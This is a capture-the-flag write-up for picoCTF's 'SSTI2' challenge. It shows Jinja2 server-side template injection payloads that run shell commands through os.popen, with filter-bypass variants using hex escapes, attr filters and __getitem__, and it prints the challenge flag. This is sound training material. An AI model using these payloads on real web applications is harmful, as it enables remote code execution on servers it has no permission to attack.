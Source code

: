 # picoGym Level 488: SSTI2
Source: https://play.picoctf.org/practice/challenge/488

## Goal
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem<br>
I heard templating is a cool and modular way to build web apps! Check out my website here!<br>
http://shape-facility.picoctf.net:54976/

## What I learned
```
Google: pyjail ssti https://onsecurity.io/article/server-side-template-injection-with-jinja2/
---
RCE bypassing as much as I possibly can.
I initially built the following payload for remote command execution, and will now try and apply as many filter bypasses as I can.
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

If the waf blocks ".":
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}

If the waf blocks "." and "_":
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}

Bypassing the blocks on ".", "_", "[]" and "|join" makes the payload turn into this payload I made for PayloadAllTheThings (https://github.com/swisskyrepo/PayloadsAllTheThings/pull/181/commits/7e7f5e762831266b22531c258d628172c7038bb9), also found on my twitter (https://twitter.com/SecGus/status/1249744031392940033):
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}} 👀
---

Jinga Filters: https://jinja.palletsprojects.com/en/stable/templates/#list-of-builtin-filters
Jinja filters work same as most Python built-ins methods
Jinja’s attr filter only looks up attributes, not items
__builtins__ and __import__ have to use __getitem__ built-in
foo.bar                 foo|attr('bar')
request.application.__globals__ to get Python built-ins
Find RCE Without `eval()` or `exec()`:

.       →       |attr()             Bypasses WAFs blocking `request.application.__globals__
_       →       \x5f                Bypasses filters blocking `__globals__`, `__builtins__`, and `__import__`
[]      →       __getitem__()       Evades protections blocking `__builtins__[‘__import__’]
import__(‘os’).popen(‘id’).read()   Avoids blocked `os.system()` and `subprocess.Popen()`
```

## Solution
```
https://webshell.picoctf.org/

Input: {{7+7}}
Output: 14 (Vulnerability)

# Note: Payloads using magic methods are blacklisted
Input: {{ cycler.__init__.__globals__.os.popen('whoami').read() }} ⌨️
Output: Stop trying to break me >:(

Input: {{config.__class__.__init__.__globals__[‘os’].popen(‘cat flag’).read()}}
Output: Stop trying to break me >:(

# Try Figure out what blacklisted
Input: {{a}}
Output:                             # Nothing means not blacklisted
Input: {{.}}
Output: Stop trying to break me >:(

# New Payload
Input: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}  
Output: picoCTF{sst1_f1lt3r_byp4ss_3cfcf706}
```

## Flag
picoCTF{sst1_f1lt3r_byp4ss_3cfcf706}

## Continue
[Continue](./picoGym0304.md)